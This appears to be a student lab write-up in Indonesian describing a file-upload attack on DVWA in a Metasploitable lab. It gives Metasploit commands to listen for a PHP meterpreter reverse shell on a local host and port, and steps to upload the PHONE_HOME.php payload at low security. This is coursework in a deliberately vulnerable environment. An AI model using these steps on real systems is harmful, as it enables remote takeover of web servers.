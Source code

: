 # Tugas Final Project

### Anggota Kelompok

|Nama      |NRP    |
|---|---|
Rian Danis  | 5114100084
Naufan Arifie | 5114100136
Dimas Hirda P | 5114100147


### DVWA

### Lesson 8

#### 1. Setting Permission di metasploitable
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/change_ownership.PNG)

```bash
sudo chown root /var/www/dvwa/hackeable/uploads/
sudo chmod 775 /var/www/dvwa/hackeable/uploads/
ls -ld /var/www/dvwa/hackeable/uploads/
```

#### 2. Jalankan msfvenom 
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/create_msfvenom.PNG)

#### 3. Edit handler.rb
Masuk ke folder multi
```bash
cd /usr/share/metasploit-framework/modules/exploits/multi
```

Berikan tanda '#' di baris STANCE
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/stance_command.PNG)

#### 3. Buka metasploitable di kali
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/metasploit_correct.PNG)

Lakukan command berikut
```bash
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.1.31
set LPORT 4444
exploit
```
#### 4. Upload file PHONE_HOME.php
Login terlebih dahulu
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/Login.PNG)

Pastikan security menjadi low
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/set_low.PNG)

Masuk ke halaman upload
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/upload.PNG)

![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/upload_done.PNG)

Cek apakah file terupload di metasploitable
![alt text](https://github.com/dimashirda/PKSJ-1/blob/master/PKSJ/Lesson%208/open_uploads.PNG)

